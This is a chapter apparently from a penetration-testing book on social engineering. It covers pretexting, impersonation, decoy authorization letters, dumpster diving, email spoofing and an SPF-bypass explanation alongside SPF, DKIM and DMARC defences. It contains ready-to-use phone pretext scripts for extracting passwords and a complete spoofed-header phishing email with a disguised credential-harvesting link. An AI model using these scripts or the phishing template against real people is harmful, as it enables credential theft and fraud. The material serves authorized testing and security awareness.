### LEVERAGING CONFIDENCE IN SOCIAL ENGINEERING

Confidence is arguably the most critical trait for a successful social engineer. When you project confidence, people are more likely to believe and trust you. I recall a college experience where I had to present my semester final project, and even though I (admittedly) hadn’t prepared for the final questions that might be asked by the professor, I answered confidently on the spot. My quick thinking and assured delivery helped me ace the final exam and avoided any suspicion. This type of confidence is essential in social engineering. You need to be prepared for unexpected situations and handle them with ease.

Being confident means being mentally ready for any scenario and responding quickly without hesitation. Avoid stuttering (if you can help it) or using filler words like “um” or “ah,” as these can signal uncertainty and raise red flags. It may seem challenging to have a ready excuse for every possible question, but it’s a skill you can develop with practice. _(At the end of this chapter, there are references listed which have greatly helped me with the art of deception)._

In social settings, confidentiality (and sometimes the lack thereof), and balancing this approach is crucial. To leverage your confidence tool, you need to gauge the mood of the group and adapt accordingly. If you’re overly enthusiastic or dominant, it can be off-putting. Conversely, being too reserved might make you seem out of place. Find a middle ground where you fit in seamlessly but stand out just enough to capture attention without raising suspicion.

Sometimes, social engineers must act empathetic, even if they are not naturally included to do so. This is what I like to refer to as _“low-key confidence.”_ People instinctively respond to care and compassion, even from those who may not genuinely feel it. This ability to evoke emotional responses and manipulate psychological triggers is a core aspect of social engineering. Whether consciously or unconsciously, we all engage in social engineering to some extent by playing off others emotional vulnerabilities. The key concept and main goal of human hacking is knowing when and how to understand and exploit these dynamics to influence others effectively.

To build confidence in social engineering, consider enrolling in acting classes, particularly improvisation drama courses. These classes, often available at community colleges or through local improv theater groups, teach you to react effectively to unexpected situations. Improv comedy can also be beneficial, as it helps you incorporate humor into your interactions, which can make you more likeable and disarm potential suspicions. Everyone appreciates a good laugh here, and there, and making your target person smile can help with their trust and with you’re advancing closer to achieving your goal.

Additionally, practice your social engineering skills in front of colleagues, and record yourself to review and refine your techniques. Ensure you use direct eye contact and a clear, confident voice to enhance your presence and credibility. Establish authority, if need be.

If your company plans to offer social engineering testing services to clients, it may be worthwhile to hire a witness consultant. These professionals are experts in preparing individuals for high-stakes situations, such as legal trials or political hearings. They can help you to handle uncomfortable scenarios and train you to maintain composure under pressure, ensuring you’re not caught off guard.

Much like the game of chess example mentioned in the beginning of this book, you need to stay one step ahead. Social engineering is much like the saying from the 1981 martial arts film, _Shaolin and WuTang: A game of chess is like a swordfight. You must think before you move._ The same holds true for any social engineering endeavor. For instance, if you're impersonating a telecommunications technician and an IT manager questions your presence, don't disclose your true intentions. Instead, pretend to call the central office to resolve a supposed mix-up. If you’re told the circuit wasn’t ordered, act like you’re having reception issues and need to step outside to complete the call. Once outside, you can leave discreetly and return later with a different approach.

| **NOTE:**                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 
 This is going to be repeated throughout this book, because I cannot stress enough the importance of always carrying a copy of your authorization form (your “Get Out of Jail Free” card in your wallet, backpack, purse, what have you, in case you are detained by security personnel, or even law enforcement This is particularly crucial when testing the security of government and military buildings. Having this document readily available can help validate your legitimacy and expedite your release if questioned. Treat it as you would any other important document you carry on person, such as an ID card, or your driver’s license.
 |

### THE IMPORTANCE OF CARRYING AN AUTHORIZATION FORM

Always keep a copy of the authorization form in your wallet, especially when testing the security of government and military buildings. This document proves you have permission to be on-site and can help validate your legitimacy if you're detained by security personnel.

#### _**BUILDING YOUR AUTHORIZATION LETTER**_

A get-out-of-jail letter is a straightforward but essential tool. It serves as your permission slip to be on-site and should include:

* Verification of who you are working with.
* Detailed information on what you are doing.
* Specific addresses or buildings you will access.
* Contact information for your client point of contact.

Include at least two different contacts or multiple ways to reach your primary contact. Ideally, there should be someone on-site who is aware of your activities. It’s up to the client to decide who they inform and how much information they disclose. Just ensure someone can vouch for you to avoid awkward situations with security.

Here is a sample letter:

.png>)

#### _**TRUST, BUT VERIFY**_

The phrase “trust, but verify” might be a cliché, but it’s crucial. Always confirm the accuracy of any document that grants you extensive privileges. An attacker could fabricate an authorization letter, so it’s wise to carry a second letter and see if it gets verified or accepted at face value.

Creating a decoy letter is similar to making a legitimate one—just swap the contact details with those of a teammate. Google Voice is a free option for this, allowing you to set up a number that forwards to a co-worker’s phone; however, Google Voice restricts you to one number at a time, which limits you to a specific geographic region.

For more flexibility, consider Flowroute. This service lets you purchase multiple numbers across different area codes, enabling you to set up both desk and mobile numbers for your decoy contact. Enhance credibility by recording the target company’s public-facing phone greeting and using it as your voicemail for the “desk phone.”

#### _**A PRACTICAL EXAMPLE**_

You can’t discuss on-site social engineering without sharing a relevant story. I successfully used a decoy letter during an engagement last year. The client’s offices were split across two buildings—one housing most employees and the other holding IT staff. I had access to a restricted floor in the first building and was working to establish persistent remote access via a compromised workstation.

I drew attention when my activities were noticed, and an employee wanted to escort me to my manager’s office for verification. As we walked across the parking lot to the second building, I tried to talk my way out of the situation but ultimately handed over my fake letter.

The employee reviewed the letter, remarked, “That’s good,” and continued leading me to the office. I requested they call the number on the letter for verification. The contact had stepped out, leaving me to be escorted back to the main building. Fortunately, the call was made to a second tester at our headquarters, Brian, who successfully confirmed my legitimacy and got me released.

Being prepared for any situation and having a backup plan are key in social engineering. This experience highlighted the importance of quick thinking and the value of having multiple layers of verification.

### PREPARING FOR GETTING CAUGHT IN ON-SITE TESTING

A key component most on-site testing methodologies social engineering penetration testing teams like to include is the potential of intentionally getting caught. This might seem counterintuitive, but it serves several crucial purposes for the social engineer who is looking to defend and not attack:

**1. Assessing Protocols:** As not only a social engineer, but a well-rounded hacker and pentester, our goal is to also evaluate whether existing security protocols are sufficient. By pushing boundaries and seeing if we get flagged, we can determine if the current measures are robust enough to handle real-world scenarios.

**2. Ensuring Compliance:** It's essential to check if employees are actually adhering to the established protocols. If our presence goes unnoticed or if employees don't follow procedures correctly, it highlights areas where additional training or improvements are needed.

During the initial phase of a social engineer’s entry and setup, the aim is to blend in and avoid drawing attention; however, as you remain on-site, its best to start slowly escalating your activities to test the limits of security protocols. While tailgating into an office and moving around undetected is a significant issue, it’s essential to understand what the client can do with this information. This risk should be accounted for in their physical security controls. Employees represent the final line of defense, and identifying where they draw the line is crucial.

Additionally, getting caught creates a lasting impact on staff. The intention of any social engineering endeavor isn’t to create chaos or induce paranoia but to bring potential vulnerabilities to the forefront. It underscores the reality that even seemingly minor incidents, like a stranger asking to borrow a laptop, can become serious concerns. What was once a hypothetical scenario discussed in annual training videos becomes a real and immediate issue that employees and end users will hopefully be more vigilant about addressing and preventing.

### USING INSIDE KNOWLEDGE FOR SOCIAL ENGINEERING

To pull off a successful social engineering attack, one of the most critical elements is possessing inside knowledge of the company you’re targeting. This preparation is key to appearing authentic and gaining trust. Here’s some useful ways you can gather the information you will need:

1. **Research Key Contacts:** Before you begin, identify the name of someone within the company who you plan to contact. Often, you can find this information directly on the company’s parent website or by searching through newsgroups for posts from internal staff. Company blogs are also another useful way of identifying a contact. Just look for the author’s name that should directly link to their personal company profile. Another clever way to get the name of an IT staff member is to call the help desk line and say something like, _“Hi, I just finished a phone interview with the IT manager, and I’m supposed to call her back, but I don’t remember her name and don’t want to embarrass myself for asking for it again. Could you please help me out?”_ Many companies also have an after-hours phone service that allows you to enter the first few letters of an employee’s name, giving you a list of potential contacts to use if they are dialed into the directory, or address book.
2. **Learn the Hours of Operation:** Another piece of vital information is the company’s hours of operation. Knowing when employees typically arrive can help you piggyback behind someone to gain access to the building unnoticed. Even if there’s a security guard on duty, mornings are usually busy, and you might be overlooked – especially if you manage to strike up a conversation with someone as you walk in from the parking lot.
3. **Gather Detailed Company Information:** The more information you gather about the company, the better prepared you’ll be for any curveballs. For instance, some organizations require employees to answer specific questions before revealing sensitive information lie passwords. These questions might be about company history or key personnel, such as _“When was the company founded?”_ or _“What is the name of the CFO?”_ While it’s impossible to predict every question you might be asked, doing thorough research will equip you to handle unexpected challenges.

By leveraging inside knowledge and doing your homework, you can significantly increase your chances of successfully navigating social engineering scenarios like a boss.

| **NOTE:**                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 
 One of the most common methods for gathering internal information about a company is <em><strong>dumpster diving</strong></em>. This involves sifting through a company’s trash to find sensitive information like organizational charts, financial statements, personally identifiable information such as un-shredded social security numbers, or birthdates, or other discarded documents with company identifiable information. Although employees should be shredding or burn-bagging these types of documents, they often end up just tossing them in the trash thinking no one would ever go digging through a dumpster full of company documents.
 |

As an ethical hacker, if you have authorization, you might consider looking through dumpsters of your client to see if any sensitive information can be uncovered. While it’s not the most glamourous task, dumpster diving can sometimes yield surprising and valuable results. You’d be amazed at what some people carelessly throw away.

For instance, let’s say you know that a company has recently hired a new board member. It’s possible that the company may have produced new letterhead, with the old – yet still official-looking – letterhead ending up in the dumpster. This discarded letterhead could then be used in a social engineering attempt, providing a layer of credibility to your operation.

### MASTERING FIRST IMPRESSIONS AS A SOCIAL ENGINEER

Knowledge of the company is crucial, but it’s not always enough to make a strong first impression on your target, whether you’re engaging in social engineering over the phone or in-person. How you present yourself can significantly influence the outcome of your interactions.

#### _**OVER THE PHONE**_

When conducting social engineering over the phone, the quality of your connection is vital. Ensure that your call is free from nuisances like static or call waiting, which can disrupt the flow of your conversation. Minimize distractions in your environment to maintain your focus and rhythm. If the employees at the company are familiar with your voice from previous attempts, consider using a voice changer to alter your vocal tone and avoid suspicion.

| **NOTE:**                                                                                                                                                                                                                                                                                                             |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 
 The YouTuber and professional scam baiter and social engineer, known as Kitboga, uses many voice changers as shown on his channel when luring malicious scammers (who are also social engineers themselves) into his hair-brained yet comedic schemes and plot reveals. (https://www.youtube.com/kitboga).
 |

#### _**IN PERSON**_

If you’re going on-site and impersonating a professional role, such as a janitor or repair technician, your appearance must be convincing. A uniform is often essential, and while common uniforms might be available at local costume shops, for more specialized attire, you may need to hire a costume designer from a local theater company to create a custom uniform.

It’s also worth considering the psychological aspects of first impressions. People are often more inclined to assist someone of the opposite sex, so having bot men and women on your penetration testing team can be advantageous. Additionally, studies have shown that attractive and tall individuals tend to make stronger impressions. A team member with a sales background can also be particularly effective, as they are likely skilled in persuasion and building rapport.

If you wear glasses, consider avoiding antiglare coating. Offices are typically well-lit, and reflections on your lenses can obscure your eyes, allowing you to make quick, unnoticed observations; however, avoid wearing sunglasses or tinted glasses indoors, as those are just dead giveaways.

#### _**SCOPING THE ENVIRONMENT**_

A skilled social engineer often makes several reconnaissance trips into a building before attempting to gain access to the corporate network. Some companies even offer facility tours, providing you with an ample opportunity to familiarize yourself with the layout. While inside, take note of exits, the server room, and the locations of key personnel. In some regions, regulations require server rooms to have windows for fire safety, which can allow you to observe the type of equipment being used – valuable information for planning future exploits.

#### _**CONFIDENCE, AGAIN, IS KEY**_

Perhaps the most crucial aspect of making a good first impression is confidence. Even if you find yourself lost inside the building (or your head, for that matter), don’t let it show. Avoid looking around too obviously; instead, use peripheral vision to gather information without appearing suspicious. This technique is similar to that used by professional shoplifters, who maintain a confident demeanor and avoid drawing attention to themselves. If you act like you belong, people are less likely to question your presence or motives.

By mastering these techniques, you can significantly increase your chances of success in social engineering engagements. First impressions are powerful, and in this field, they can be the difference between failure and achieving your objective and success.

### TECH SUPPORT IMPERSONATION IN SOCIAL ENGINEERING

In this digital age, the practice of social engineering has become increasingly sophisticated, particularly in the realm of tech support impersonation and now that you have a better understanding of what it takes to be a social engineering, let’s explore some common examples of impersonation tactics used to gain unauthorized access to data networks. Keep in mind, these are just a few examples – the most effective social engineers constantly invent new, creative ways to manipulate people into divulging information.

One of the most widely used tactics is **tech support impersonation.** In this scenario, the social engineer poses as a help desk technician to trick unsuspecting users into providing sensitive information like usernames or passwords. Here’s a simple example of how this might play out:

|   | 
 <strong>Social Engineer:</strong> Hi, this is Adrianna from tech support. Are you experiencing any slowdowns with your system?

<strong>VictimUser:</strong> No. Not really. Everything seems fine.

<strong>Social Engineer:</strong> Hmm, I’m seeing network issues on our end. Let me log in and check your system. You username is ‘vuser,’ correct?

<strong>VictimUser:</strong> Yes, that’s right.
 |   |
| - | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | - |

Using this exchange, the social engineer confirms the user’s username, which is often based on their email address. After gathering that, the next step is to obtain the password.

|   | 
 <strong>Social Engineer:</strong> Thanks! Now, I just need to look up your password…Wow! Our system is really slow. Can you remind me of what your password is, please? That would really help to expedite this process.

<strong>VictimUser:</strong> It’s SimplePassword!12

<strong>Social Engineer:</strong> Okay, I’m in. Thanks. It seems fine from here. Thanks for your help!

<strong>VictimUser:</strong> Uh, erm.
 |   |
| - | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | - |

This basic example highlights how easily attackers can impersonate tech support staff to unsuspecting users. In reality, social engineers build more rapport with their target, often using humor and insider knowledge about the company’s network to make their ruse more convincing.

Remote works and telecommuters are especially vulnerable to such tactics. Since they often miss out on regular security training and are used to receiving help desk calls, they are more likely to fall for these scams; however, obtaining the contact details of telecommuters can be a challenge. A common workaround is pretending to be an executive requesting a list of employees who work from home – an inquiry that might not raise suspicion and could lead to easy access to the desired phone numbers.

By leveraging these impersonation tactics, social engineers can extract vital information, emphasizing the need for robust security awareness and protective measures.

### THE LIMITATIONS OF HELP DESK IMPERSONATION AND THE BENEFITS OF THIRD-PARTY IMPERSONATION IN SOCIAL ENGINEERING

Help desk impersonation is a commonly used social engineering tactic, but its widespread use makes it less effective. Many companies are aware of this method and enforce strict policies to prevent employees from sharing sensitive information, such as passwords. As a result, attackers may find that this approach no longer yields desired results.

A more successful strategy involves **third-party impersonation,** where you pretend to be a representative from an external company, such as a network integrator or vendor. This approach can be very effective for gathering details about an organization’s hardware and software. Here’s a simple example of how it may work:

|   | 
 <strong>Social Engineer:</strong> Hi, I’m with <em>You Can Trust Us Consulting,</em> and I’d like to talk to you about our new firewall product.

<strong>VictimUser:</strong> Thanks, but we’re happy with what we’re currently using.

<strong>Social Engineer:</strong> That’s great to hear! Just curious – what kind of firewall are you currently running?

<strong>VictimUser:</strong> We’re using <em>PIX</em> and <em>NetScreen</em> firewalls.
 |   |
| - | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | - |

From here, the attacker gathers useful information about the company’s firewalling systems, potentially learning about its network defense capabilities, such as protections against denial of service (DoS) attacks. Through casual conversations, the attacker uncovers valuable details, like the fact that the company’s email server is protected by a specific firewall setup, saving the time and risk involved in attempting to scan for this information directly.

This example illustrates how third-party impersonation allows social engineers to bypass technical defenses by simply asking the right questions, often yielding critical information without being detected.

### CASE STUDY: IN-PERSON THIRD-PARTY IMPERSONATION

While phone calls are a common method for third-party impersonation, performing it in person can be equally effective. I once conducted a security test at a federal credit union, posing as a computer technician sent to fix server issues. The teller, believing my story, swiped her access card and escorted me to the restricted second floor where the data center was located.

This test had been prearranged with the IT manager, who purposely left the building to evaluate her staff’s response to social engineering. When I approached the second floor receptionist, she hesitated but eventually let me in after I explained that returning the next day would incur additional costs and fees. Surprisingly, she did not have me sign in or verify my credentials, despite the data center being secured by a card swipe system and a visitors sign-in log.

Once inside, I easily gained access to the servers using basic security scanning tools. Devices with default or no passwords were identified quickly, allowing me to connect to all servers after breaking into one. This incident highlights the ease with which social engineering tactics can bypass physical security measures, leaving sensitive company data exposed.

The IT manager was understandably shocked by how easily I had infiltrated the system. This case emphasizes the importance of enforcing strict protocols, such as validation and verification of visitor credentials and preventing unauthorized access to critical systems and hardware.

### MAGAZINE INTERVIEW IMPERSONATION: EXPLOITING CURIOSITY

Another effective method for third-party impersonation involves posing as a journalist from a trade magazine. Employees often feel excited at the prospect of being quoted, leading them to disclose sensitive information they normally wouldn’t be so inclined to share. This is why organizations should ensure that public relations staff supervise any interviews and that interviewers are properly verified before giving out product samples or details.

In one scenario, you could pretend to be an IT magazine writer conducting an interview on data security. IT staff, eager to showcase their expertise may inadvertently reveal critical information, such as password policies and internal security practices. Here is an example:

|   | 
 <strong>Social Engineer:</strong> I’m really impressed by your infrastructure security.

<strong>VictimUser:</strong> Thank you. We take security very seriously here at XYZ Company.

<strong>Social Engineer:</strong> Can you share what security policies you have in place?

<strong>VictimUser:</strong> Certainly! We have a password policy that requires passwords to be at least eight characters long and changed every three months.

<strong>Social Engineer:</strong> That’s impressive! I’ve heard that enforcing such policies can lead to users writing down passwords and placing them on stickies under keyboards or even on monitors in plain sight! Do you find that happening here a lot, or is it the complete opposite in that you find users not doing such practices as the policy enforcements require they abide by it?

<strong>VictimUser:</strong> (laughs). Oh, all the time! We estimate that about 50% of our employees have passwords written down somewhere on their desks or work areas.
 |   |
| - | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | - |

This brief exchange reveals a simple method for breaching the company’s security – by physically inspecting workspaces for written passwords. To exploit this, you could visit the office area near the end of the day, ask to use the restroom, and once the office clears out, inspect desks for passwords before the cleaning crew arrives.

This case underscores the importance of comprehensive security protocols that prevent employees from sharing sensitive information without oversight.

### EMAIL IMPERSONATION

Impersonation through email is a powerful tool for social engineering attacks, particularly when using spoofed email headers to deceive recipients. In the example provided, a spoofed email pretends to be from a legitimate service like Visa Credit or Microsoft Hotmail, urging the recipient to take immediate action due to “security concerns.” The message often creates a sense of urgency, as seen in phishing scams, compelling users to click on a malicious link to update their passwords to secure their accounts.

Key techniques used in this type of email impersonation:

1. **Spoofed Sender Address:** The attacker can manipulate the “From” address to appear as a legitimate service, like fakecredit@visacredit.com or a trusted domain, making the email seem authentic.
2. **Urgency and Authority:** The email content emphasizes urgency, such as requiring users to change their password by a certain date. It also uses authoritative language (e.g., from an “Executive Director of Hotmail Security”) to press recipients into compliance without questioning the email’s legitimacy.
3. **Malicious Links:** The hyperlink provided often looks official but redirects the user to a malicious site (in this case, something like login.asp@333868852/). Once on the site, the victim unknowingly submits their login credentials, which are then captured by the attacker via keylogging.
4. **Email Signature:** To enhance credibility, the email includes an official-sounding signature with a name, title, company, and website link. This further reassures the victim that the email is legitimate, making them less likely to doubt its authenticity.

This email technique is common in phishing attacks and showcases why security awareness training is most important for organizations. Recipients should be trained to verify suspicious emails by checking for inconsistencies in the sender’s address, the content, or even by hovering over hyperlinks **before** clicking.

It’s easy to send a spoofed email with the sender address being whatever you want it to be (in our case “fakecredit@visacredit.com”), as demonstrated in the below example:

|   | 
 <strong>From</strong>: Visa Credit fakecredit@visacredit.com

<strong>To</strong>: xxxx@hotmail.com

<strong>Date</strong>: Wed, July 5th, 2024 04:11:03 -0500

<strong>Subject</strong>: Visa Credit Check

<strong>Reply-To</strong>: Visa Credit Service fakecredit@visacredit.com

<strong>Received</strong>: from mx.chi.a.com (mx.wash.a.com[10.1.2.3])

by mailserver1.wash.a.com with SMTP id A93AABVQ35A

for xxxx@hotmail.com (sender thief@hackmynetwork.com);

Wed, July 5th, 2024 03:09:01 -0500 (PST)

<strong>X-Mailer</strong>: Microsoft Outlook Express 11.00.2800.1158

<strong>MIME-Version</strong>: 1.0

<strong>Content-Type</strong>: text/html; charset=iso-8859-1

<strong>Content-Transfer-Encoding</strong>: 8bit

<strong>X-Priority</strong>: 3 (Normal)

<strong>X-MAIL-INFO</strong>: 4316792387897d34b9877

<strong>X-ContentStamp</strong>: 2:3:1818012451

<strong>Return-Path</strong>: thief@hackmynetwork.com

<strong>Message-ID</strong>: A93AABVQ35A@mx.chi.a.com 
 |   |
| - | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | - |

Spoofed emails, like the above example of the fake Hotmail update email, are a critical element in social engineering penetration testing because they simulate real-world phishing attacks that target unsuspecting users. One effective way to illustrate the importance of testing with spoofed emails is to show you a real-world example of their malicious use. To begin, start by crafting an email using a forged header that mimics a trusted source. Within the body of the email, include a message similar to the one below:

|   | 
 <strong>Urgent Action Required</strong>

Dear Valued Microsoft Hotmail User,

We hope you’re enjoying your Hotmail experience. Due to recent security concerns, we are upgrading our servers with a new authentication system. To ensure continued access to your account, <strong>all users must update their passwords.</strong>

<strong>Important Dates to Remember:</strong>
<ul><li>The new system will be in place by <strong>December 1, 2024</strong></li><li>Please update your password by <strong>October 1, 2024</strong> to avoid losing access.</li></ul>
<strong>Steps to Update Your Password:</strong>
<ol><li>Click the following link to update your password:</li></ol>
http://www.fakemicrosoft.com/passport/hotmail/login.asp@333868852/login.asp
<ol><li>Allow 5-6 minutes for the update to process.</li><li>If you encounter issues, please try again later.</li></ol>
We apologize for any inconvenience and appreciate your understanding as we work to enhance your security.

Sincerely,

Anita S. Cammer

Executive Director of Hotmail Security

Microsoft Hotmail Support

http://www.fakemicrosoft.com
 |   |
| - | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | - |

The recipient, upon clicking the link, will be directed to a phishing site designed to capture their login credentials, which are then sent to the attacker instead of Microsoft.

### UNDERSTANDING THE BASICS OF EMAIL ADDRESS SPOOFING AND PHISHING

Before we explore vulnerability exploitation, let’s first cover some fundamentals to give you a complete idea of the email address spoofing and phishing domain.

#### _**EMAIL ADDRESS SPOOFING**_

Email address spoofing is generally where someone forges an email address and email information display name to appear as though it is from a trusted entity, individual, or authoritative figure. Under normal circumstances, email address spoofing shouldn’t be possible. If you’ve heard the email acronyms _**SPF, DKIM**_, or _**DMARC**_, you probably already know why. These are all email authentication protocols meant to prevent email spoofing.

.png>)

It’s crucial to acknowledge this because by understanding how these protocols work, you can understand how they can be abused and even bypassed if not configured correctly.

### DOMAINKEYS IDENTIFIED MAIL (DKIM)

DomainKeys Identified Mail, or DKIM, is an email authentication method designed to detect and prevent email spoofing. It works by adding a digital signature to the header of an email message. This signature is linked to the domain that sent the email and is generated using cryptographic keys. When a receiving email server gets the message, it uses the public key published in the sender’s DNS (Domain Name Service) record to verify the signature’s authenticity. If the signature matches, DKIM then confirms that the email has not been tampered with and that it truly came from the sending domain that it claims to be from.

DKIM helps prevent certain types of attacks, such as phishing, by ensuring that email recipients can trust the email sender’s domain. Unlike SPF (Sender Policy Framework) which is covered further down, SPF only checks the sending server whereas DKIM specifically verifies and validates the integrity of the email content and the authenticity of the sending domain; however, for DKIM to be effective, both the sending and receiving email servers need to support and have DKIM properly configured. When used in combination with SPF and DMARC (another email authentication protocol covered below), DKIM provides a robust framework for email security.

### DOMAIN-BASED MESSAGE, AUTHENTICATION, REPORTING, AND CONFORMANCE (DMARC)

Domain-based Message, Authentication, Reporting, and Conformance (DMARC) is an email authentication protocol designed to protect domains from email spoofing, phishing, and other types of electronic fraud. It, however, builds on two existing authentication mechanisms: SPF (Sender Policy Framework), and DKIM (DomainKeys Identified Mail). DMARC allows domain owners to specify how emails that fail SPF and DKIM checks should be handled by receiving email servers, such as whether they should be rejected, quarantined, or allowed through but flagged.

The key feature of DMARC is its ability to provide detailed reporting. Domain owners can receive feedback about emails sent from their domain(s), including whether they passed or failed authentication checks. This helps organizations monitor unauthorized use of their domain in emails and adjust their security policies accordingly. By enforcing strict rules for email validation, DMARC enhances email security and helps reduce the risk of successful phishing and spoofing attacks.

For DMARC to be effective, it must properly be configured in combination with both SPF and DKIM, and the receiving email servers must also respect and process the DMARC policy.

.png>)

### SENDER POLICY FRAMEWORK (SPF)

Sender Policy Framework (SPF) is an email authentication method used to prevent email spoofing by verifying the legitimacy of the sender’s domain. SPF works by allowing domain owners to specify which mail servers are authorized to send emails on behalf of their domain. This information is published in the DNS (Domain Name System) as a special type of _**TXT record,**_ containing a list of permitted servers.

When an email is received, the recipient’s mail server checks the SPF record of the sender’s domain to determine if the message was sent from an authorized IP address. If the IP matches, the email is considered legitimate. If not, the recipient’s server can reject the email, mark it as spam, or take other actions based on its configuration.

SPF is an important part of an email authentication strategy, but it is most effective when combined with both DKIM and DMARC, to provide a comprehensive defense against email spoofing and phishing attacks used in social engineering.

### EMAIL SPOOFING PROTECTIONS: HOW THREE EMAIL SECURITY PROTOCOLS WORK

DKIM, DMARC, and SPF are the three email authentication mechanisms we discussed above. These three email spoofing and anti-phishing mechanisms work together to enhance the securities and authenticity of email communications, and just like one big happy family, they all complement each other to thwart these social engineering attacks, and they do so as such:

#### _**SENDER POLICY FRAMEWORK (SPF)**_

The **Sender Policy Framework (SPF)** is designed to prevent email spoofing by verifying that the sending server is authorized to send emails on behalf of a sending domain. Here’s how SPF accomplishes this:

* **Configuration:** The domain owner publishes an SPF record in the DNS zone file, specifying which email servers are permitted to send email on behalf of the domain.
* **Validation:** When an email is received, the receiving mail server checks the SPF record of the sender’s domain to ensure that the sending server’s IP address is listed. If the IP address is not authorized, the email can be flagged as suspicious or rejected.

#### _**DOMAINKEYS IDENTIFIED MAIL (DKIM)**_

The **DomainKeys Identified Mail (DKIM)** email authentication mechanism adds a cryptographic signature to emails to verify their authenticity and ensures that the message has not been altered or tampered with during transit. Here’s how DKIM accomplishes this:

* **Signing:** When an email is sent, the sending server generates a DKIM signature using a private key and adds it to the email’s headers.
* **Verification:** The receiving server retrieves the public key from the sender’s DNS records to verify the DKIM signature. If the signature is valid and matches the content of the email, it confirms that the email has not been tampered with and is from the claimed sender.

#### _**DOMAIN-BASED MESSAGE AUTHENTICATION, REPORTING & CONFORMANCE (DMARC)**_

The **Domain-Based Message Authentication, Reporting, & Conformance (DMARC)** email authentication mechanism builds on top of SPF and DKIM by providing a way for domain owners to specify how their emails should be handled if authentication checks from both SPF and DKIM fail. It also enables reporting on email metrics and authentication results reporting back those findings to the domain owner. Here is how DMARC accomplishes this:

* **Policy Setup:** The domain owner publishes a DMARC record in their DNS, which defines the policy for handling emails that fail SPF or DKIM checks (e.g., quarantine or reject) and specifies an email address for receiving aggregate reports and forensic reports.
* **Alignment:** DMARC requires that SPF and DKIM results align with the domain used in the **From:** header. If an email passes SPF and/or DKIM but the domains do not align, it will fail DMARC validation.
* **Reporting:** DMARC provides reports to the domain owner about email authentication results and potential abuse. These reports help domain owners understand how their domain is being used and how well their email authentication mechanisms are working.

When an email is sent, SPF checks the sender’s IP address against the domain’s SPF record, DKIM adds a cryptographic signature to verify the email’s integrity, and DMARC ensures that the results of the SPF and DKIM align with the domain in the **From:** header.

The validation process works as such:

* **SPF:** Checks if the sending IP is authorized by the domain’s SPF record.
* **DKIM:** Verifies that the email’s content hasn’t been altered and that the signature matches the domain.
* **DMARC:** Ensures SPF and DKIM results align with the domain in the **From:** header and applies the specified policy for handling failed authentication.

If an email fails SPF, DKIM, or both, and DMARC is properly configured, the receiving server follows the DMARC policy (e.g., reject, quarantine, or allow) and can generate reports for the domain owner to review.

By using SPF, DKIM, and DMARC together, defenders or organizations can significantly reduce the risk of email spoofing and phishing attacks, protect their domain reputation, and ensure the authenticity of their emailing communications.

.png>)

### BYPASSING SPF

To understand how SPF can be bypassed, it’s essential to break down how emails are processed. When an email is received by an email client, like Gmail or Microsoft Outlook, the user only sees part of the email – the “email content.” Behind the scenes, the “email envelope,” which is responsible for routing and technical details, remains hidden unless you look into the message headers.

This separation between visible content and hidden technical data is where SPFs vulnerability lies. SPF checks the “mail from” address found in the email envelope for authenticity; however, you can exploit this by manipulating the **From:** address found in the visible part of the email content, which is what you, as the recipient, actually sees.

As can be seen in the image below, there are two locations where the “from” address is specified. The first “mail from:” address located in the email envelope is where the authentication checks occur. But as mentioned earlier, everything in the email envelope is hidden from plain view. The second “from:” address located in the email content is what the recipient of the email sees in their email client.

.png>)

This leads to a critical question: What happens if the “mail from:” address in the email envelope is misaligned with the “from:” address in the email content?

This is precisely how an _**SPF-Bypass attack**_ occurs. You have the ability to use a legitimate domain and control the “mail from:” address in the hidden email envelope, which still passes the SPF validation check. Then, you spoof the “from:” address in the visible email content using the domain of a trusted entity you wish to impersonate.

In an _**SPF-Bypass attack**_, you aim to misalign these two “from:” addresses. While the SPF check validates the hidden “mail from” in the envelope, the user only sees the spoofed “from” in the content. As a result, a malicious email appears to come from a trusted source, bypassing the SPF authentication. This misalignment creates a gap that you can use to spoof emails to deceive your target recipients, and this is where DMARC is called upon to address this loophole and to prevent such spoofing attempts.

### USING SOCIAL ENGINEERING TO BYPASS PHISHING PROTECTIONS WITH EMAIL AUTHENTICATION

Over recent years, phishing has increasingly posed a significant threat to both end users and organizations, with social engineering tactics often exacerbating the problem. Spam filters serve as the first line of defense against these malicious attempts, aiming to block spoofed emails from reaching users’ inboxes. This section is dedicated to evaluating the effectiveness of these filters in detecting phishing emails and explores both offensive and defensive techniques that might be employed to evade detection.
